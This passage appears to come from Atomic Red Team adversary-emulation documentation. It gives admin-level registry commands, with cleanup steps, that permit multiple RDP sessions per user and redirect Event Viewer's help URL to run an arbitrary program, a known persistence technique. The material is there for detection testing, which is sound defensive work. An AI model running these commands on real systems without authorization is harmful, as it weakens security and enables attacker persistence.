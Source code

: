 **auto_generated_guid:** 35727d9e-7a7f-4d0c-a259-dc3906d6e8b9






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #47 - Event Viewer Registry Modification - Redirection URL
Modify event viewer registry values to alter the behavior of the online help redirection. Upon opening an event in event viewer and attempting to view the help page for the event, it will open the URL or execute the program defined in the redirection URL registry entry.

**Supported Platforms:** Windows


**auto_generated_guid:** 6174be7f-5153-4afd-92c5-e0c3b7cdb5ae





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| redirection_url | URL to open or file URI to execute upon opening the event help | url | file://C:&#92;windows&#92;system32&#92;notepad.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v MicrosoftRedirectionURL /t REG_SZ /d "#{redirection_url}" /f
```

#### Cleanup Commands:
```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v MicrosoftRedirectionURL /t REG_SZ /d "http://go.microsoft.com/fwlink/events.asp" /f
```
